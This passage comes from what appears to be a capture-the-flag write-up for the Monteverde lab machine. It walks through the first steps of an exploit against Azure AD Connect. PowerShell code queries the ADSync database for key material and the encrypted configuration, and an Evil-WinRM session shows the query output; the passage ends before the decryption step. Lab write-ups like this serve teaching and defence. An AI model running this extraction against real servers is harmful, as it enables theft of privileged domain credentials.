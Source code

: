 #### Steps

The exploit breaks down into three parts:
- Get the information from the DB to retrieve the encryption keys from the KeyManager.
- Get the config and encrypted password from the DB.
- Fetch the keys and decrypt the password.

#### Fetch Key Information

This code is just doing a simple query to the database and storing the results in appropriate variables:

```

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

```

I can do that same query using `sqlcmd` on Monteverde to see the results:

```
*Evil-WinRM* PS C:\> sqlcmd -d ADSync -Q 'SELECT keyset_id, instance_id, entropy FROM mms_server_configuration'
keyset_id   instance_id                          entropy
----------- ------------------------------------ ------------------------------------
          1 1852B527-DD4F-4ECF-B541-EFCCBFF29E31 194EC2FC-F186-46CF-B44D-071EB61F49CD

(1 rows affected)

```

#### Fetch Config Information

The next section of code a second query to get the config information:

```

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

```
